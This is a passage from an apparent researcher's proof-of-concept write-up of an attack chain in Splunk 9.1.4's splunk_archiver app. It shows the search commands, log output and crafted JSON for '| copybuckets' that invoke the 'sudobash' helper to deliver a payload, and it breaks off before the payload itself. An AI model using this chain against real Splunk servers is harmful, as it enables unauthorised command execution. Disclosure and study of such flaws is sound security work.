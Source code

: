    Ohh no, a fresh installed Splunk instance does not have this required `sudobash` bash file at its location :-(<br>
   There is a file located here only `/opt/splunk/bin/jars/sudobash`<br>
   Too bad?<br>
## 4. Problem
The `| copybuckets` lookup does nothing, but some error results of search can be found in `SID`related `search.log`
```
find /opt/splunk/var/run/splunk/dispatch/ -name "search.log" |xargs ls -ltr
less /opt/splunk/var/run/splunk/dispatch/1726261594.102/search.log

09-13-2024 23:06:34.254 ERROR ScriptRunner [138430 StreamScriptThreadfor/opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py] - stderr from '/opt/splunk-9.1.4/bin/python3.7 /opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py':      jsonStr = sys.argv[1:][0].split("=",1)[1]
09-13-2024 23:06:34.254 ERROR ScriptRunner [138430 StreamScriptThreadfor/opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py] - stderr from '/opt/splunk-9.1.4/bin/python3.7 /opt/splunk-9.1.4/etc/apps/splunk_archiver/bin/copybuckets.py':  IndexError: list index out of range
```
Ok, it needs some Json input. After debugging and playing a lot, it was clear what kind of Json is required.<br>
We need some special structure and values, required to pass the checks in `copybuckets.py` and `erp_launcher_duplicate.py` and to provide our payload.<br>

Ok, let's dig deeper. After playing around with both lookups, they work in this way.<br>

# The attack chain
## 1. We need the `sudobash` file
You may wait until this archivebuckets job was done somehow internally by a cron job, but I did not test this.<br>
We manually triggering the setup to have the file copied
```
| archivebuckets forcerun=1
```
Now we have `/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash`<br>
That's it :-)<bR>

That's because archivebuckets.py calls `vixutils.copyJars()` in /opt/splunk/etc/apps/splunk_archiver/bin/vixutils_duplicate.py to copy files from `/opt/splunk/bin/jars/` into `appbinjars`
```
def _copyJars(splunkhome, appbinjars):
    splunkjars = os.path.join(splunkhome, 'bin', 'jars')
    dir_util.copy_tree(splunkjars, appbinjars, update=1, verbose=0)
    _trimDirToTemplate(splunkjars, appbinjars)
```

## 2. Calling `| copybuckets` with json data
We need to give at least one virtual index provider in `vixes`:
```
 \"vixes\":{
  \"vix1\": {\"provider\": \"psytester's PoC\"}
 },
```
We need to call `/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash` in `providers` as `command`
And the path has to match `SUDO_BASH_COMMAND`!
```
  \"providers\": {
  \"providerparam\":{
   \"command.arg.1\":\"/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
   ....
```